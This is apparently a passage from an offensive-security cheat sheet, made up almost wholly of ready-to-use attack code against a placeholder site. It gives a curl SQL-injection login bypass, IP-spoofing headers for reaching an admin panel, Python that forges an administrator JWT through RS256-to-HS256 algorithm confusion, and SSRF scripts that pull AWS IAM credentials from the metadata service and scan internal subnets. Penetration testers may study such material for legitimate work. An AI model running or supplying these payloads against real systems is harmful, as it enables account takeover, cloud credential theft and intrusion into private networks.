 
**Authentication Bypass Techniques**:

```bash
# SQL Injection Authentication Bypass
curl -X POST https://target.com/login \
  -d "username=admin'--&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Header-based Authentication Bypass
curl -H "X-Forwarded-For: 127.0.0.1" \
     -H "X-Real-IP: 127.0.0.1" \
     -H "X-Originating-IP: 127.0.0.1" \
     https://target.com/admin/panel

# JWT Algorithm Confusion Attack
# Change algorithm from RS256 to HS256 and sign with public key
import jwt
import requests

# Extract public key from application
public_key = get_public_key_from_app()

# Create malicious token
payload = {"user": "admin", "role": "administrator", "exp": 9999999999}
malicious_token = jwt.encode(payload, public_key, algorithm="HS256")

# Use token for privileged access
headers = {"Authorization": f"Bearer {malicious_token}"}
admin_response = requests.get("https://target.com/admin/users", headers=headers)
```

**SSRF Exploitation Patterns**:

```python
# Cloud Metadata Exploitation
import requests

# AWS Metadata Service
metadata_urls = [
    "http://169.254.169.254/latest/meta-data/",
    "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "http://169.254.169.254/latest/user-data/"
]

# Test SSRF endpoint with cloud metadata
for url in metadata_urls:
    payload = {"url": url}
    response = requests.post("https://target.com/fetch-url", data=payload)
    if response.status_code == 200 and "aws" in response.text.lower():
        print(f"AWS credentials exposed: {response.text}")

# Internal network scanning via SSRF
internal_ips = ["192.168.1.{}", "10.0.0.{}", "172.16.0.{}"]
for ip_pattern in internal_ips:
    for i in range(1, 255):
        ip = ip_pattern.format(i)
        payload = {"url": f"http://{ip}:22"}
        response = requests.post("https://target.com/fetch-url", data=payload)
        if response.status_code == 200:
            print(f"Internal host discovered: {ip}")
```
